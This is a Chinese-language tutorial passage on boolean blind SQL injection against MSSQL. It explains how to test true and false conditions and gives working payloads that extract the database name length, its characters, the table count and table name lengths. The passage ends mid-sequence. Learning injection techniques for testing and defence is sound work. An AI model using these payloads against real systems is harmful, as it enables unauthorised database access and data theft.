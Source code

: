 ## 盲注
### 布尔盲注
布尔盲注其实和mysql布尔盲注一样，通过页面对永真条件，`or 1=1` 与 永假条件，`and 1=2` 返回的内容是否存在差异，进行判断是否可以进行布尔盲注。通常返回存在/不存在两个结果，就可以判断是否存在布尔盲注
```sql
-- 语句如下，如果condition为真，那么整条语句 where 语句则恒真
select * from users where username=$username and (condition)
```
and 1=1 恒真
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_Ndf1Fv2E.png)
and 1=2 恒假
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_bRGhkyx0.png)
利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据
布尔盲注常用函数

- ascii()
- substring()
- count()
- len()

同mysql，一般注入流程为

- 求闭合字符
- 求当前数据库长度
- 求当前数据库ascii码值
- 求表名的数量
- 求表名的长度
- 求表名的ascii码值
- 求列名的数量
- 求列名的长度
- 求列名的ascii码值
- 求字段的数量
- 求字段的长度
- 求字段的ascii码值

求当前数据库长度
```sql
select * from users where id = '1' and len(db_name()) = 4 --+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_9sTtCWfv.png)
依次求解当前数据库的ascii码值，如果能猜字符可以不用ascii函数
```sql
select * from users where id = '1' and ascii(substring(db_name(),1,1)) = 116 --+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_25_6Pc0wIgr.png)
求当前数据库中表的个数
```sql
select * from users where id = '1' and 4 = (select count(*) from test..sysobjects where xtype='U')--+
-- test.information_schema.tables 包含视图 而 test..sysobjects where xtype = 'U' 只包含用户创建的表
select * from users where id = '1' and 6 = (select count(*) from test.information_schema.tables)--+
-- information_schema去除视图
select * from users where id = '1' and 4 = (select count(*) from test.information_schema.tables where table_type not in ('view'))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_xvRg9UG6.png)
求当前数据库表的长度
```sql
select * from users where id = '1' and 5 = (select top 1 len(name) from test..sysobjects where xtype='U')--+
-- 求第二个表
```